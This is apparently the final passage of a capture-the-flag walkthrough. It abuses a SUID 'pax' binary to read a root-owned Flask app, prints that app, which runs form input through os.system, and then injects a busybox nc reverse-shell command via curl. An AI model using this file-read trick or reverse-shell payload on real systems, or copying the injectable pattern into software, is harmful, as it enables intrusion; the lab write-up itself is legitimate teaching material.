 There is a file in ‘/root/webapp/app.py’ which is hosting this simple HTTP service. However, we cannot have access to /root folder.

Enumeration is the key.

When searching for the SUID files, we found that `pax` command has SUID permission and we can abuse this to read the content of the file.

```jsx
LFILE=file_to_read
pax -w "$LFILE"
```

We can view the content of this file through changing the above command.

```jsx
plumber@plumber:~$ LFILE="/root/webapp/app.py"
pax -w "$LFILE"
/root/webapp/app.py010064400000000000000000000011111450271307700132670ustar00rootrootfrom flask import Flask, request, render_template
import os

app = Flask(__name__)

# Define the route for the home page
@app.route('/', methods=['GET','POST'])
def index():
    if request.method == 'POST':
        # Get the user input from the form
        user_input = request.form.get('user_input')
        # Print the user input to the console
        print("User Input:", os.system(user_input))
    elif request.method == 'GET':
        return "Cannot resolve GET request"

#    return render_template('index.html')

if __name__ == '__main__':
    app.run(debug=True, port=10080)
plumber@plumber:~$
```

The following command can be used to get a reverse shell.

```jsx
plumber@plumber:~$ curl -XPOST localhost:10080 -d "user_input=busybox nc 192.168.47.128 12342 -e sh"
```

![https://i.ibb.co/nMqKpjx/last.png](https://i.ibb.co/nMqKpjx/last.png)

Thank you for Reading!!
